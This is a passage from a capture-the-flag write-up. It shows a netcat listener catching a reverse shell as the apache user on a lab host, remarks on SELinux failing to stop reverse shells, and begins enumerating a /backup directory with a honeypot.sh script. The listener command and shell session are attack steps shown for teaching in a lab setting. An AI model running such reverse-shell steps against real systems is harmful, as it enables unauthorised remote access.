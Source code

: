

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.122.
    Ncat: Connection from 10.10.10.122:35934.
    bash: no job control in this shell
    bash-4.2$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0



A couple things to note here:

-   For some reason, while this web request hangs, it seems to lock up
    our access to port 80. Exiting the shell will open 80 back up.
-   The author's intent was to configure SE Linux to prevent the common
    reverse shells. This does prevent things like callbacks on non web
    or ldap ports, and writing pipes to `/tmp`. But it's not enough to
    stop all reverse shells. I'll [play with SELinux](#selinux) a bit
    and [write my own shell to submit commands](#shell-as-apache-1) in
    Beyond Root.

## Read as root

### Enumeration - Find /backup

Right away I'll notice an extra directory at the root level, `backup`:



    [ldapuser@ctf /]$ ls
    backup  bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var



There's interesting stuff in it:



    [ldapuser@ctf backup]$ ls -l /backup/
    total 48
    -rw-r--r--. 1 root root  32 Feb 10 21:31 backup.1549830661.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:32 backup.1549830721.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:33 backup.1549830781.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:34 backup.1549830841.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:35 backup.1549830901.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:36 backup.1549830961.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:37 backup.1549831021.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:38 backup.1549831081.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:39 backup.1549831141.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:40 backup.1549831201.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:41 backup.1549831261.zip
    -rw-r--r--. 1 root root   0 Feb 10 21:41 error.log
    -rwxr--r--. 1 root root 975 Oct 23 14:53 honeypot.sh
